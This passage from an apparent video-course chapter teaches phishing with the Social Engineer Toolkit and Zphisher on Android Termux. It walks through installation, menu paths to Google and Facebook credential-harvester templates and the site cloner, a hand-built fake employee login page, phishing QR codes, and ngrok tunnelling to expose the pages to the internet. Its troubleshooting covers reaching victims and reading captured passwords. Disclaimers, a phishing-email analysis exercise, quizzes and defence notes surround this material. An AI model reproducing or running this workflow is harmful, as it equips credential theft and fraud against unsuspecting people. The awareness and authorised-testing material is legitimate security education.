│  └─────────────────────────────────────────────────────────────────┘   │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

---

## 🔧 INSTALLATION GUIDE

### Complete SET Installation in Termux

```bash
# STEP 1: Update Termux
pkg update && pkg upgrade -y

# STEP 2: Install proot-distro
pkg install proot-distro -y

# STEP 3: Install Ubuntu
proot-distro install ubuntu

# STEP 4: Login to Ubuntu
proot-distro login ubuntu

# STEP 5: Update Ubuntu
apt update && apt upgrade -y

# STEP 6: Install dependencies
apt install -y git python3 python3-pip python3-dev \
    build-essential libssl-dev libffi-dev \
    libxml2-dev libxslt1-dev zlib1g-dev \
    apache2 net-tools

# STEP 7: Clone SET repository
git clone https://github.com/trustedsec/social-engineer-toolkit.git

# STEP 8: Navigate to SET directory
cd social-engineer-toolkit

# STEP 9: Install Python requirements
pip3 install -r requirements.txt

# STEP 10: Install SET
python3 setup.py install

# STEP 11: Run SET
setoolkit
```

### Quick Alternative: Zphisher (Simpler Tool)

```bash
# Works directly in Termux without proot
pkg install git php curl -y

# Clone Zphisher
git clone --depth=1 https://github.com/htr-tech/zphisher.git

# Navigate and run
cd zphisher
bash zphisher.sh
```

### Setup NGrok for External Access

```bash
# Install ngrok
pkg install ngrok

# Sign up at ngrok.com and get auth token
ngrok config add-authtoken YOUR_AUTH_TOKEN

# Expose local web server
ngrok http 8080
```

---

## 📋 COMMANDS REFERENCE

### SET Navigation Commands

```bash
# Start SET
setoolkit

# Main Menu Options:
1  # Social-Engineering Attacks
2  # Penetration Testing (Fast-Track)
3  # Third Party Modules
4  # Update SET
5  # Update SET configuration
6  # Help, Credits, and About
99 # Exit

# Social-Engineering Attacks Submenu (Option 1):
1  # Spear-Phishing Attack Vectors
2  # Website Attack Vectors
3  # Infectious Media Generator
4  # Create a Payload and Listener
5  # Mass Mailer Attack
6  # Arduino-Based Attack Vector
7  # Wireless Access Point Attack Vector
8  # QRCode Generator Attack Vector
9  # Powershell Attack Vectors
10 # SMS Spoofing Attack Vector
11 # Third Party Modules

# Website Attack Vectors Submenu (Option 1 → 2):
1  # Java Applet Attack Method
2  # Metasploit Browser Exploit Method
3  # Credential Harvester Attack Method
4  # Tabnabbing Attack Method
5  # Web Jacking Attack Method
6  # Multi-Attack Web Method
7  # HTA Attack Method
```

### Credential Harvester Commands

```bash
# Start credential harvester
setoolkit
> 1  # Social-Engineering Attacks
> 2  # Website Attack Vectors
> 3  # Credential Harvester Attack Method

# Then select:
1  # Web Templates (pre-built pages)
2  # Site Cloner (clone any website)
3  # Custom Import (your own HTML)

# For Web Templates, available options:
1  # Java Required
2  # Google
3  # Facebook
4  # Twitter
5  # Yahoo
# ... and more
```

### System Commands for SET

```bash
# Check your IP address
ifconfig
ip addr show
hostname -I

# Check if web server is running
netstat -tulpn | grep :80
netstat -tulpn | grep :443

# Kill web server
pkill apache2
pkill python3

# View captured credentials
cat /root/.set/reports/*.txt
cat ~/.set/reports/*.txt

# Check SET logs
cat /var/log/set.log

# Edit SET configuration
nano /etc/setoolkit/set_config.py
```

### NGrok Commands

```bash
# Start ngrok tunnel
ngrok http 80

# Start with specific port
ngrok http 8080

# Start HTTPS tunnel
ngrok http https://localhost:443

# View tunnel status
# Visit: http://127.0.0.1:4040

# Add authentication
ngrok config add-authtoken YOUR_TOKEN
```

### Proot-Distro Commands

```bash
# List available distributions
proot-distro list

# Install a distribution
proot-distro install ubuntu
proot-distro install kali

# Login to distribution
proot-distro login ubuntu
proot-distro login kali

# Login with shared Termux storage
proot-distro login ubuntu --shared-tmp

# Remove distribution
proot-distro remove ubuntu

# Backup distribution
proot-distro backup ubuntu

# Restore distribution
proot-distro restore ubuntu-backup.tar.gz
```

### Zphisher Commands

```bash
# Start Zphisher
bash zphisher.sh

# Available options:
1  # Social Media attacks
2  # Email providers
3  # Banking
4  # Gaming
5  # Custom page

# Select tunnel method:
1  # localhost.run (no signup)
2  # ngrok (requires auth)
3  # cloudflared
```

### Defensive Commands

```bash
# Check email headers (on mail server)
dig TXT domain.com
dig TXT _dmarc.domain.com

# Check SPF record
dig TXT domain.com | grep spf

# Check DMARC
dig TXT _dmarc.domain.com

# Analyze suspicious URL
curl -I http://suspicious-url.com
whois suspicious-url.com

# Check SSL certificate
echo | openssl s_client -connect domain.com:443 2>/dev/null | openssl x509 -noout -issuer -dates
```

### Reporting Commands

```bash
# Create report directory
mkdir -p ~/security-reports/$(date +%Y-%m-%d)

# Save captured data (for documentation)
cp ~/.set/reports/*.txt ~/security-reports/$(date +%Y-%m-%d)/

# Generate hash of captured data
md5sum ~/.set/reports/*.txt

# Create timestamped log
echo "Test conducted: $(date)" >> ~/security-reports/test-log.txt

# Screenshot for documentation (if using GUI)
import -window root screenshot-$(date +%Y%m%d-%H%M%S).png
```

---

## 💻 PRACTICE EXERCISES

### Exercise 1: SET Installation

```bash
# Task: Install SET in Ubuntu proot environment

# Step 1: Install proot-distro
pkg install proot-distro -y

# Step 2: Install Ubuntu
proot-distro install ubuntu

# Step 3: Login and verify
proot-distro login ubuntu
cat /etc/os-release

# Step 4: Install dependencies
apt update
apt install -y git python3 python3-pip build-essential \
    libssl-dev libffi-dev

# Step 5: Clone and install SET
git clone https://github.com/trustedsec/social-engineer-toolkit.git
cd social-engineer-toolkit
pip3 install -r requirements.txt
python3 setup.py install

# Step 6: Verify installation
setoolkit --version
# or just run
setoolkit

# Expected: SET menu should appear
```

### Exercise 2: Credential Harvester (Local Test)

```bash
# Task: Test credential harvester on local machine

# Step 1: Start SET
setoolkit

# Step 2: Navigate menus
# Select: 1 → 2 → 3

# Step 3: Choose Web Templates
# Select: 1

# Step 4: Select a template (e.g., Google)
# Select: 2

# Step 5: Enter your IP
# Use your local IP or 127.0.0.1 for testing

# Step 6: Open browser on same device
# Navigate to: http://127.0.0.1

# Step 7: Enter test credentials
# Username: test@test.com
# Password: testpassword123

# Step 8: Check terminal
# Credentials should appear in SET output

# Step 9: View saved credentials
cat ~/.set/reports/*.txt
```

### Exercise 3: Website Cloning

```bash
# Task: Clone a simple website

# Step 1: Start SET
setoolkit

# Step 2: Navigate to credential harvester
# Select: 1 → 2 → 3

# Step 3: Choose Site Cloner
# Select: 2

# Step 4: Enter URL to clone
# Example: http://example.com

# Step 5: Set IP address
# Use your local IP

# Step 6: Test the cloned site
# Open browser: http://YOUR_IP

# Step 7: Verify clone matches original
# Compare visual elements

# Expected: Cloned site should look similar to original
```

### Exercise 4: Create Custom Phishing Page

```bash
# Task: Create a custom phishing page

# Step 1: Create HTML file
cat > /tmp/custom_page.html << 'EOF'
<!DOCTYPE html>
<html>
<head>
    <title>Company Login</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            display: flex;
            justify-content: center;
            padding-top: 100px;
            background: #f0f0f0;
        }
        .login-box {
            background: white;
            padding: 30px;
            border-radius: 5px;
            box-shadow: 0 2px 10px rgba(0,0,0,0.1);
            width: 300px;
        }
        input {
            width: 100%;
            padding: 10px;
            margin: 10px 0;
            border: 1px solid #ddd;
            border-radius: 4px;
            box-sizing: border-box;
        }
        button {
            width: 100%;
            padding: 10px;
            background: #007bff;
            color: white;
            border: none;
            border-radius: 4px;
            cursor: pointer;
        }
        button:hover {
            background: #0056b3;
        }
    </style>
</head>
<body>
    <div class="login-box">
        <h2>Employee Login</h2>
        <form action="/post" method="POST">
            <input type="text" name="username" placeholder="Username" required>
            <input type="password" name="password" placeholder="Password" required>
            <button type="submit">Login</button>
        </form>
        <p style="font-size:12px; color:#666;">Forgot password?</p>
    </div>
</body>
</html>
EOF

# Step 2: Use custom import in SET
# setoolkit → 1 → 2 → 3 → 3 (Custom Import)
# Enter path: /tmp/custom_page.html

# Expected: Your custom page is served
```

### Exercise 5: QR Code Generation

```bash
# Task: Generate phishing QR code

# Step 1: Start SET
setoolkit

# Step 2: Navigate to QR code
# Select: 1 → 8

# Step 3: Enter your phishing URL
# Example: http://192.168.1.100 (your IP)

# Step 4: SET generates QR code image
# Saved in ~/.set/qr_code.png

# Step 5: View the QR code
# Transfer to device with GUI or view in gallery

# Expected: QR code image created
```

### Exercise 6: Defense Analysis

```bash
# Task: Analyze a phishing email (simulated)

# Create a sample phishing email for analysis:
cat > /tmp/suspicious_email.txt << 'EOF'
From: security@bankofamerica.com
Reply-To: support@banksecure-verify.com
Subject: URGENT: Your Account Has Been Limited

Dear Valued Customer,

We have detected unusual activity on your account. 
Click here to verify: http://bankofamerica-secure-verify.com/login

If you do not verify within 24 hours, your account will be suspended.

Best regards,
Bank of America Security Team
EOF

# Analyze:
# 1. Check sender domain vs reply-to
# 2. Analyze URL (hover check)
# 3. Look for urgency tactics
# 4. Check for personalization (none here)
# 5. Grammar/spelling check

# Document findings:
echo "Phishing Indicators:" > /tmp/analysis.txt
echo "1. Reply-To different from From address" >> /tmp/analysis.txt
echo "2. URL different from displayed domain" >> /tmp/analysis.txt
echo "3. Urgency language used" >> /tmp/analysis.txt
echo "4. Generic greeting" >> /tmp/analysis.txt
echo "5. Threatening language" >> /tmp/analysis.txt

cat /tmp/analysis.txt
```

### Exercise 7: Network Configuration

```bash
# Task: Configure network for phishing test

# Step 1: Check network interfaces
ip addr show
ifconfig

# Step 2: Find your IP
ip addr show wlan0 | grep inet

# Step 3: Check if port 80 is available
netstat -tulpn | grep :80

# Step 4: If port occupied, kill process
sudo fuser -k 80/tcp

# Step 5: Configure firewall (if needed)
# Allow incoming connections on port 80

# Step 6: Verify connectivity
ping -c 3 google.com

# Step 7: Test web server
python3 -m http.server 80 &
curl http://localhost
pkill python3

# Expected: Port 80 should be available for SET
```

### Exercise 8: Report Documentation

```bash
# Task: Create professional security test report

# Create report template
mkdir -p ~/security-reports/SET-Test-$(date +%Y%m%d)
cd ~/security-reports/SET-Test-$(date +%Y%m%d)

# Create report header
cat > report.md << 'EOF'
# Social Engineering Assessment Report

## Executive Summary
- **Date:** $(date +%Y-%m-%d)
- **Client:** [Company Name]
- **Assessor:** [Your Name]
- **Scope:** Phishing awareness testing

## Methodology
- Tool: Social Engineering Toolkit (SET)
- Attack Vector: Credential Harvesting
- Target Group: [Department]

## Findings

### Test Configuration
- Attack Type: [Phishing/Vishing/etc.]
- Template Used: [Google/Facebook/Custom]
- Duration: [Hours]
- Targets: [Number]

### Results
| Metric | Value |
|--------|-------|
| Emails Sent | X |
| Links Clicked | X |
| Credentials Captured | X |
| Success Rate | X% |

### Recommendations
1. Implement security awareness training
2. Enable 2FA for all accounts
3. Deploy email filtering (SPF/DKIM/DMARC)
4. Conduct regular phishing simulations

## Appendix A: Timeline
## Appendix B: Raw Data
## Appendix C: Remediation Steps
EOF

# Save test data
echo "Test completed at: $(date)" >> timeline.txt

# Expected: Professional report structure created
```

---

## ⚠️ TROUBLESHOOTING

### Problem 1: SET Installation Fails

```bash
# Symptom: pip install errors

# Cause: Missing dependencies or Python version issues

# Solution 1: Install all dependencies
apt install -y python3 python3-pip python3-dev \
    build-essential libssl-dev libffi-dev \
    libxml2-dev libxslt1-dev zlib1g-dev

# Solution 2: Upgrade pip
pip3 install --upgrade pip

# Solution 3: Install setuptools
pip3 install setuptools wheel

# Solution 4: Try with --break-system-packages (newer Python)
pip3 install -r requirements.txt --break-system-packages
```

### Problem 2: "Permission denied" for Web Server

```bash
# Symptom: Cannot bind to port 80

# Cause: Port 80 requires root privileges

# Solution 1: Use higher port (8080)
# In SET config, change port to 8080

# Solution 2: Use sudo (in real Linux, not proot)
sudo setoolkit

# Solution 3: Run as root user
# In proot, you are effectively root

# Solution 4: Kill existing web server
pkill apache2
pkill nginx
```

### Problem 3: Website Not Accessible

```bash
# Symptom: Phishing page not loading

# Cause: Firewall, wrong IP, or server not running

# Solution 1: Check server is running
netstat -tulpn | grep :80

# Solution 2: Check correct IP
ip addr show
# Use the IP shown for wlan0 or eth0

# Solution 3: Test locally first
curl http://127.0.0.1

# Solution 4: Check firewall (if applicable)
iptables -L
# Allow port 80 if blocked

# Solution 5: Verify Apache is running
service apache2 status
service apache2 start
```

### Problem 4: NGrok Not Working

```bash
# Symptom: NGrok tunnel fails

# Cause: Missing auth token or network issues

# Solution 1: Add auth token
ngrok config add-authtoken YOUR_TOKEN

# Solution 2: Check internet connection
ping -c 3 google.com

# Solution 3: Try alternative tunnel
# Use cloudflared or localhost.run

# Solution 4: Check ngrok status
# Visit: http://127.0.0.1:4040

# Solution 5: Use ngrok v2 syntax
ngrok http 80  # instead of ngrok http 8080
```

### Problem 5: Credentials Not Captured

```bash
# Symptom: Page loads but no credentials captured

# Cause: Form action not modified correctly

# Solution 1: Check if SET is still running
ps aux | grep setoolkit

# Solution 2: Verify harvester is active
# Look for "Harvester is active" message

# Solution 3: Check logs
cat ~/.set/reports/*.log

# Solution 4: Test with simple input
# Enter test credentials manually

# Solution 5: Check HTML source
curl http://YOUR_IP | grep -i form
# Verify form action points to correct endpoint
```

### Problem 6: SSL/HTTPS Errors

```bash
# Symptom: HTTPS sites not cloning properly

# Cause: SSL certificate verification

# Solution 1: Use HTTP sites for cloning
# HTTP sites clone more reliably

# Solution 2: Disable SSL verification
export PYTHONHTTPSVERIFY=0

# Solution 3: Use certificate in SET
# Enable SSL in SET configuration

# Solution 4: Create self-signed certificate
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes

# Solution 5: Use Apache with SSL
a2enmod ssl
service apache2 restart
```

### Problem 7: Proot-Distro Issues

```bash
# Symptom: Cannot login to Ubuntu

# Cause: Installation incomplete or corrupted

# Solution 1: Reinstall Ubuntu
proot-distro remove ubuntu
proot-distro install ubuntu

# Solution 2: Check available space
df -h

# Solution 3: Clear cache
proot-distro clear-cache

# Solution 4: Update proot-distro
pkg update
pkg upgrade proot-distro

# Solution 5: Check error logs
proot-distro install ubuntu --verbose
```

### Problem 8: Python Version Conflict

```bash
# Symptom: Python errors when running SET

# Cause: Wrong Python version or modules

# Solution 1: Check Python version
python3 --version
# Should be 3.6 or higher

# Solution 2: Install specific Python
apt install python3.9 python3.9-pip

# Solution 3: Use virtual environment
python3 -m venv setenv
source setenv/bin/activate
pip install -r requirements.txt

# Solution 4: Install pexpect manually
pip3 install pexpect
```

### Problem 9: Metasploit Integration Fails

```bash
# Symptom: Metasploit payloads not working

# Cause: Metasploit not installed or configured

# Solution 1: Install Metasploit
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall

# Solution 2: Start PostgreSQL
service postgresql start

# Solution 3: Initialize database
msfdb init

# Solution 4: Configure SET for Metasploit
# Edit: /etc/setoolkit/set_config.py
# Set: METASPLOIT_PATH = /usr/share/metasploit-framework
```

### Problem 10: Network Connectivity Issues

```bash
# Symptom: Victims cannot access phishing page

# Cause: Network configuration issues

# Solution 1: Check IP is correct
# Must use IP accessible by victims

# Solution 2: Same WiFi network
# Attacker and victim must be on same network for local testing

# Solution 3: Port forwarding (for external access)
# Configure router to forward port 80 to your machine

# Solution 4: Use ngrok for external access
ngrok http 80

# Solution 5: Disable VPN
# VPN may interfere with local network access
```

---

## 🎬 VIDEO ASSETS

### Thumbnail Concepts

**Option A: Professional Style**
```
┌────────────────────────────────────┐
│  [Dark Terminal Background]        │
│                                    │
│   ⚠️ SOCIAL ENGINEERING            │
│   TOOLKIT (SET)                    │
│                                    │
│   🎣 Phishing Attacks              │
│   🔐 Credential Harvesting         │
│   📱 Fake Login Pages              │
│                                    │
│   [T3rmuxk1ng Logo]                │
└────────────────────────────────────┘
```

**Option B: Warning Style**
```
┌────────────────────────────────────┐
│  🔴 WARNING: DANGEROUS TOOL        │
│                                    │
│  SOCIAL ENGINEERING                │
│  TOOLKIT TUTORIAL                  │
│                                    │
│  ⚡ Steal Credentials              │
│  ⚡ Clone Websites                 │
│  ⚡ Create Payloads                │
│                                    │
│  Chapter 37 | T3rmuxk1ng           │
└────────────────────────────────────┘
```

**Option C: Comparison Style**
```
┌────────────────────────────────────┐
│  🔒 Security Test vs 🎣 Phishing   │
│  ─────────────────────────────────│
│                                    │
│  ETHICAL USE:    ✅ Testing        │
│                  ✅ Training       │
│                  ✅ Awareness      │
│                                    │
│  ILLEGAL USE:    ❌ Theft          │
│                  ❌ Fraud          │
│                  ❌ Damage         │
│                                    │
│  SET in Termux | T3rmuxk1ng        │
└────────────────────────────────────┘
```

### Video Description Template

```markdown
🎣 Termux Full Course - Chapter 37: Social Engineering Toolkit (SET) | Complete Guide

🔥 In this video you'll learn:
• Social Engineering fundamentals
• SET installation in Termux (proot-distro)
• Credential harvesting attacks
• Website cloning techniques
• Creating fake login pages
• Defense against SE attacks
• Legal considerations

⏱️ Timestamps:
0:00 - Introduction
0:50 - Social Engineering Fundamentals
4:00 - SET Introduction
6:00 - SET Installation
10:00 - SET Menu Structure
12:00 - Credential Harvesting Demo
16:00 - Phishing Mechanics
18:00 - Payload Creation
20:00 - Defense Strategies
22:00 - Legal Considerations
23:30 - Alternative Tools
25:00 - Summary

📥 Installation Commands:
pkg install proot-distro -y
proot-distro install ubuntu
proot-distro login ubuntu
apt update && apt upgrade -y
apt install git python3 python3-pip -y
git clone https://github.com/trustedsec/social-engineer-toolkit.git
cd social-engineer-toolkit
pip3 install -r requirements.txt
python3 setup.py install
setoolkit

⚠️ DISCLAIMER: This video is for EDUCATIONAL PURPOSES ONLY. Use these techniques ONLY for authorized security testing. Unauthorized phishing attacks are ILLEGAL.

📚 Full Course Playlist:
[PLAYLIST LINK]

📱 Follow T3rmuxk1ng:
• YouTube: @T3rmuxk1ng
• Telegram: [LINK]
• GitHub: [LINK]

#Termux #SET #SocialEngineering #Phishing #EthicalHacking #T3rmuxk1ng #TermuxCourse #CyberSecurity #PenetrationTesting #InfoSec

---
⚠️ Disclaimer: This video is for educational purposes only. Only use these techniques on systems you have explicit permission to test. Unauthorized access to computer systems is illegal.
```

### Tags List

```
social engineering toolkit, set, setoolkit, phishing, credential harvesting, 
termux, termux course, ethical hacking, penetration testing, cybersecurity, 
social engineering attacks, fake login page, website cloning, hacking tools, 
t3rmuxk1ng, termux tutorial, security testing, bug bounty, information security, 
phishing attack, man in the middle, wifi phishing, evil twin, pretexting, 
vishing, smishing, spear phishing, security awareness, cyber security course, 
hindi tutorial, termux hacking, mobile hacking, android hacking tools
```

### Hashtags

```
#SocialEngineering #SET #Phishing #EthicalHacking #CyberSecurity #Termux 
#PenetrationTesting #InfoSec #T3rmuxk1ng #TermuxCourse #HackingTools 
#SecurityTesting #BugBounty #CyberSecurityTraining #PhishingAwareness 
#SocialEngineeringToolkit #CredentialHarvesting #WebsiteCloning
```

---

## 📚 ADDITIONAL RESOURCES

### Official Resources

| Resource | Link |
|----------|------|
| SET GitHub | https://github.com/trustedsec/social-engineer-toolkit |
| TrustedSec | https://www.trustedsec.com/ |
| SET Documentation | https://github.com/trustedsec/social-engineer-toolkit/tree/master/readme |

### Alternative Tools

| Tool | Repository | Description |
|------|------------|-------------|
| Zphisher | github.com/htr-tech/zphisher | Beginner-friendly phishing toolkit |
| SocialFish | github.com/UndeadSec/SocialFish | Simple phishing framework |
| Shellphish | github.com/thelinuxchoice/shellphish | Multi-platform phishing tool |
| Evilginx2 | github.com/kgretzky/evilginx2 | Advanced MITM phishing proxy |
| Gophish | github.com/gophish/gophish | Phishing framework for testing |
| BlackEye | github.com/An0nUD4Y/blackeye | Credential harvester |

### Learning Resources

| Resource | Description |
|----------|-------------|
| Social-Engineer.org | SE community and resources |
| Phishing Quiz | Google's phishing quiz |
| KnowBe4 | Security awareness training |
| SANS Institute | Cybersecurity training |
| OWASP | Web security resources |

### Legal Resources

| Resource | Description |
|----------|-------------|
| Computer Fraud Act | US federal law |
| IT Act 2000 | Indian cyber law |
| GDPR | European data protection |
| ISO 27001 | Security standard |

---

## ✅ CHAPTER CHECKLIST

Before moving to Chapter 38, verify:

- [ ] Installed proot-distro successfully
- [ ] Ubuntu environment working
- [ ] SET installed and running
- [ ] Understand main menu structure
- [ ] Tested credential harvester locally
- [ ] Understand phishing mechanics
- [ ] Know defense strategies
- [ ] Understand legal implications
- [ ] Can create basic reports

---

## 🎯 NEXT CHAPTER PREVIEW

**Chapter 38: WiFi Security Tools**

- WiFi security fundamentals
- Aircrack-ng installation
- Monitor mode setup
- WPA handshake capture
- Wifite automation tool
- WiFi adapter requirements
- Legal considerations for WiFi testing

---

**Chapter Complete! 🎉**

*Created by T3rmuxk1ng | Termux Full Course*

---

## 📊 QUICK REFERENCE CARD

```
┌─────────────────────────────────────────────────────────────────────────┐
│              SET QUICK REFERENCE                                        │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                         │
│  INSTALLATION:                                                          │
│  pkg install proot-distro                                               │
│  proot-distro install ubuntu                                            │
│  proot-distro login ubuntu                                              │
│  git clone https://github.com/trustedsec/social-engineer-toolkit.git    │
│  cd social-engineer-toolkit && pip3 install -r requirements.txt         │
│  python3 setup.py install                                               │
│                                                                         │
│  RUN SET:                                                               │
│  setoolkit                                                              │
│                                                                         │
│  CREDENTIAL HARVESTER:                                                  │
│  1 → 2 → 3 → [Template/Clone/Custom]                                   │
│                                                                         │
│  EXTERNAL ACCESS:                                                       │
│  ngrok http 80                                                          │
│                                                                         │
│  VIEW CREDENTIALS:                                                      │
│  cat ~/.set/reports/*.txt                                               │
│                                                                         │
│  LEGAL:                                                                 │
│  ✅ Authorized testing only                                            │
│  ❌ Unauthorized attacks illegal                                        │
│                                                                         │
└─────────────────────────────────────────────────────────────────────────┘
```

---

# 🚀 POWER UPGRADE - NEXT LEVEL CONTENT

---

## 🎮 INTERACTIVE QUIZ - Test Your Knowledge!

### Social Engineering & SET Mastery Quiz

**Q1: What does SET stand for?**
- A) Security Exploitation Tool
- B) Social Engineering Toolkit ✓
- C) System Exploit Toolkit
- D) Security Engineering Tool

**Q2: Which attack type uses fake websites to steal credentials?**
- A) Vishing
- B) Smishing
- C) Phishing ✓
- D) Tailgating

**Q3: What is the primary purpose of credential harvesting?**
- A) Install malware
- B) Steal usernames and passwords ✓
- C) Crash the website
- D) Encrypt files

**Q4: Which SET menu option is used for website attacks?**
- A) 1 - Social-Engineering Attacks → 2 - Website Attack Vectors ✓
- B) 2 - Penetration Testing
- C) 3 - Third Party Modules
- D) 4 - Update SET

**Q5: What tool can expose a local phishing page to the internet?**
- A) nmap
- B) ngrok ✓
- C) sqlmap
- D) burp

**Q6: Which attack vector creates a fake login page clone?**
- A) Web Templates
- B) Site Cloner ✓
- C) Custom Import
- D) Payload Generator

**Q7: What is "spear phishing"?**
- A) Random mass emails
- B) Targeted attack on specific individual ✓
- C) Phone-based attack
- D) Physical intrusion

**Q8: Which psychological trigger does urgency exploit?**
- A) Greed
- B) Authority
- C) Fear ✓
- D) Helpfulness

**Q9: What does 2FA protect against in phishing?**
- A) Prevents credential theft
- B) Adds extra verification layer ✓
- C) Encrypts passwords
- D) Blocks all attacks

**Q10: Where does SET store captured credentials?**
- A) /var/log/set/
- B) ~/.set/reports/ ✓
- C) /tmp/set/
- D) /root/credentials/

**Q11: What is "vishing"?**
- A) Video phishing
- B) Voice phishing ✓
- C) Virtual phishing
- D) VPN phishing

**Q12: Which is NOT a social engineering defense?**
- A) Security awareness training
- B) Email filtering
- C) Installing more antivirus ✓
- D) Verifying sender identity

---

## 🎮 INTERACTIVE QUIZ

Test your Social Engineering knowledge! Answers are hidden below each question.

### Question 1
**What is Social Engineering?**
<details>
<summary>Click to reveal answer</summary>

Social Engineering is the art of manipulating people into divulging confidential information or performing actions that compromise security. It exploits human psychology rather than technical vulnerabilities.
</details>

### Question 2
**What is phishing?**
<details>
<summary>Click to reveal answer</summary>

Phishing is a social engineering attack where attackers create fake websites, emails, or messages that appear legitimate to trick victims into revealing sensitive information like passwords or credit card numbers.
</details>

### Question 3
**What is the Social Engineering Toolkit (SET)?**
<details>
<summary>Click to reveal answer</summary>

SET is an open-source framework written in Python that helps security professionals test and demonstrate social engineering attacks including phishing, credential harvesting, and payload creation.
</details>

### Question 4
**What is credential harvesting?**
<details>
<summary>Click to reveal answer</summary>

Credential harvesting is a technique where attackers create fake login pages to capture usernames and passwords when victims attempt to log in to what they believe is a legitimate service.
</details>

### Question 5
**What is spear phishing?**
<details>
<summary>Click to reveal answer</summary>

Spear phishing is a targeted phishing attack directed at specific individuals or organizations, using personalized information to increase the likelihood of success.
</details>

### Question 6
**What is the difference between phishing and vishing?**
<details>
<summary>Click to reveal answer</summary>

Phishing uses email or fake websites, while vishing (voice phishing) uses phone calls to trick victims into revealing information.
</details>

### Question 7
**What is ngrok used for in SET?**
<details>
<summary>Click to reveal answer</summary>

ngrok creates a secure tunnel from a public URL to a local server, allowing attackers to expose phishing pages hosted on localhost to the internet.
</details>

### Question 8
**What makes a phishing page convincing?**
<details>
<summary>Click to reveal answer</summary>

A convincing phishing page includes: legitimate-looking branding, correct logos and colors, similar URL structure, proper form fields, SSL certificate, and mobile-responsive design.
</details>

### Question 9
**What is pretexting in social engineering?**
<details>
<summary>Click to reveal answer</summary>

Pretexting is creating a fabricated scenario or pretext to manipulate victims into providing information or access. The attacker creates a believable story to gain trust.
</details>

### Question 10
**How do you protect against phishing?**
<details>
<summary>Click to reveal answer</summary>

Protection methods include: verifying sender identity, checking URLs carefully, using 2FA, not clicking suspicious links, educating yourself about phishing signs, and reporting suspicious emails.
</details>

### Question 11
**What is whaling?**
<details>
<summary>Click to reveal answer</summary>

Whaling is a type of phishing attack that specifically targets high-profile individuals like executives, CEOs, or other important figures within an organization.
</details>

### Question 12
**What is baiting in social engineering?**
<details>
<summary>Click to reveal answer</summary>

Baiting involves leaving infected physical media (like USB drives) or digital downloads in places where victims will find and use them, leveraging curiosity or greed.
</details>

### Question 13
**What is tailgating?**
<details>
<summary>Click to reveal answer</summary>

Tailgating is a physical social engineering technique where an unauthorized person follows an authorized person into a secure area without proper authentication.
</details>

### Question 14
**What makes SET different from other hacking tools?**
<details>
<summary>Click to reveal answer</summary>

SET focuses on exploiting human psychology rather than technical vulnerabilities. It provides ready-made templates and automation for social engineering attacks.
</details>

### Question 15
**What is two-factor authentication's role in preventing phishing?**
<details>
<summary>Click to reveal answer</summary>

2FA adds an extra security layer. Even if credentials are harvested, attackers cannot access accounts without the second factor (SMS code, authenticator app, or hardware key).
</details>

---

## 🎯 INTERVIEW QUESTIONS

### Q1: What are the main types of social engineering attacks?

**Answer:**
1. **Phishing** - Email/website based attacks
2. **Spear Phishing** - Targeted phishing
3. **Whaling** - Executive-targeted attacks
4. **Vishing** - Voice/phone-based attacks
5. **Smishing** - SMS-based attacks
6. **Pretexting** - Creating false scenarios
7. **Baiting** - Physical/digital lures
8. **Tailgating** - Physical access bypass
9. **Quid Pro Quo** - Exchange-based manipulation
10. **Watering Hole** - Compromising frequently visited sites

### Q2: How does SET automate social engineering attacks?

**Answer:**
SET provides:
- **Pre-built templates** for popular websites (Google, Facebook, etc.)
- **Website cloning** to replicate legitimate sites
- **Credential harvesting** with automatic capture
- **Payload generation** with msfvenom integration
- **Email campaigns** with templates
- **QR code generation** for mobile attacks
- **Wireless attack modules** for fake access points

### Q3: What defenses exist against social engineering?

**Answer:**
**Technical Controls:**
- Email filtering (SPF, DKIM, DMARC)
- Web filtering
- 2FA/MFA
- Antimalware
- Security awareness training

**Human Controls:**
- Regular security training
- Phishing simulations
- Verification procedures
- Clear reporting channels

**Policy Controls:**
- Information classification
- Access controls
- Verification workflows
- Incident response plans

### Q4: Explain the psychology behind successful social engineering.

**Answer:**
Attackers exploit:
1. **Authority** - People comply with perceived authority figures
2. **Urgency** - Time pressure bypasses critical thinking
3. **Fear** - Negative consequences motivate compliance
4. **Greed** - Promise of rewards triggers action
5. **Helpfulness** - People want to be helpful
6. **Trust** - Building rapport lowers defenses
7. **Social Proof** - "Everyone else is doing it"
8. **Scarcity** - Limited availability creates urgency

### Q5: How would you conduct a phishing awareness campaign?

**Answer:**
1. **Assess baseline** - Test current awareness levels
2. **Design scenarios** - Create realistic phishing tests
3. **Deploy tests** - Send simulated phishing emails
4. **Track metrics** - Who clicked, reported, ignored
5. **Immediate training** - Redirect to training for clickers
6. **Analyze results** - Identify vulnerable groups
7. **Report findings** - Management summary
8. **Iterate** - Improve training based on results

### Q6: What makes a social engineering test ethical?

**Answer:**
**Ethical Requirements:**
- Written authorization
- Defined scope
- No actual data theft
- Educational purpose
- Clear documentation
- Immediate disclosure if asked
- Report findings constructively

**Unethical Practices:**
- Testing without permission
- Causing actual harm
- Public humiliation
- Financial gain from targets
- Inappropriate content

### Q7: How do you detect a phishing email?

**Answer:**
**Red Flags:**
- Suspicious sender address (slight misspellings)
- Urgent language demanding immediate action
- Generic greetings (Dear Customer)
- Spelling and grammar errors
- Suspicious links (hover to check)
- Requests for sensitive information
- Unexpected attachments
- Threats of account closure
- Too good to be true offers

**Detection Steps:**
1. Check sender email address
2. Hover over links (don't click)
3. Look for HTTPS in URLs
4. Verify with official sources
5. Check for personalization

### Q8: What is the legal framework around social engineering testing?

**Answer:**
**Legal Requirements:**
- Written contract/authorization
- Scope definition
- Rules of engagement
- Data protection compliance
- Industry regulations (PCI, HIPAA, etc.)

**Legal Risks:**
- Unauthorized computer access
- Identity theft laws
- Fraud statutes
- Privacy violations

**Protection:**
- Clear documentation
- Legal review
- Insurance
- Proper authorization

### Q9: How do attackers use social media for reconnaissance?

**Answer:**
**Information Gathering:**
- Employee names and roles
- Organizational structure
- Technologies used
- Personal details for spear phishing
- Location information
- Contact information
- Interests and hobbies
- Professional connections

**Attack Preparation:**
- Craft targeted emails
- Build trust through familiarity
- Identify high-value targets
- Find authentication patterns
- Discover organizational weaknesses

### Q10: What are the legal consequences of unauthorized social engineering?

**Answer:**
**Criminal Charges:**
- Computer Fraud and Abuse Act (US)
- Identity theft laws
- Wire fraud
